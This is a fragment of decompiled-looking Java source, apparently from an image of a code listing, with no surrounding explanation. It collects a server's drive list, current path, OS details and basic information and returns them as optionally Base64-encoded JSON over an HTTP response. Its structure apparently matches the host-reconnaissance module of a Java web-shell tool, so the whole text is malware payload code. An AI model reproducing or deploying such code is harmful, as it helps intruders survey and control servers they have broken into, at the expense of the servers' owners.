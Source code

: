 ```java
            int var11 = roots.length;

            for(int var12 = 0; var12 < var11; ++var12) {
                File f = var10[var12];
                driveList = driveList + f.getPath() + ";";
            }

            String osInfo = System.getProperty("os.name") + System.getProperty("os.version") + System.getProperty("os.arch");
            Map<String, String> entity = new HashMap();
            entity.put("basicInfo", basicInfo.toString());
            entity.put("currentPath", currentPath);
            entity.put("driveList", driveList);
            entity.put("osInfo", osInfo);
            entity.put("arch", System.getProperty("os.arch"));
            result = this.buildJson(entity, false);
        } catch (Exception var26) {
        } finally {
                try {
                    response.getWriter().println(result);
                } catch (Exception var23) {
                }
        }
    }

    private String buildJson(Map<String, String> entity, boolean encode) throws Exception {
        StringBuilder sb = new StringBuilder();
        String version = System.getProperty("java.version");
        sb.append("{");
        Iterator var5 = entity.keySet().iterator();

        while(var5.hasNext()) {
            String key = (String)var5.next();
            sb.append("\"" + key + "\":\"");
            String value = ((String)entity.get(key)).toString();
            if (encode) {
                Class Base64;
                Object Encoder;
                if (version.compareTo("1.9") >= 0) {
                    this.getClass();
                    Base64 = Class.forName("java.util.Base64");
                    Encoder = Base64.getMethod("getEncoder", (Class[])null).invoke(Base64, (Object[])null);
                    value = (String)Encoder.getClass().getMethod("encodeToString", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                } else {
                    this.getClass();
                    Base64 = Class.forName("sun.misc.BASE64Encoder");
                    Encoder = Base64.newInstance();
                    value = (String)Encoder.getClass().getMethod("encode", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                    value = value.replace("\n", "").replace("\r", "");
                }
            }

            sb.append(value);
            sb.append("\",");
        }

        sb.setLength(sb.length() - 1);
        sb.append("}");
        return sb.toString();
    }
```